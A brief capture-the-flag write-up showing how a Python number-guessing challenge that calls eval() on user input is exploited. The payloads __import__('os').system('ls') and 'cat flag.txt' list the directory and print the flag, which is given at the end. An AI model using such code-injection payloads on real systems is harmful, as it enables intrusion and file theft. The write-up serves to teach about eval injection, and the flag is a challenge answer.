 The primary vulnerability in this challenge is the use of eval(). This function allows arbitrary code execution, which can be exploited to bypass the need to guess the number. 

Since eval() executes the input as code, we can input python code that reads and prints the
flag directly, bypassing the number guessing logic

First we can input ```__import__('os').system('ls')```
We get:
```What is the number?: __import__('os').system('ls')                    
chall.py
flag.txt

You lost lol
```
Then we input ```__import__('os').system('cat flag.txt')```
We get:
```
    wctf{Why_Gu3ss_Wh3n_Y0u_C4n_CH34T}
    You lost lol
```

Flag is: ```wctf{Why_Gu3ss_Wh3n_Y0u_C4n_CH34T}```
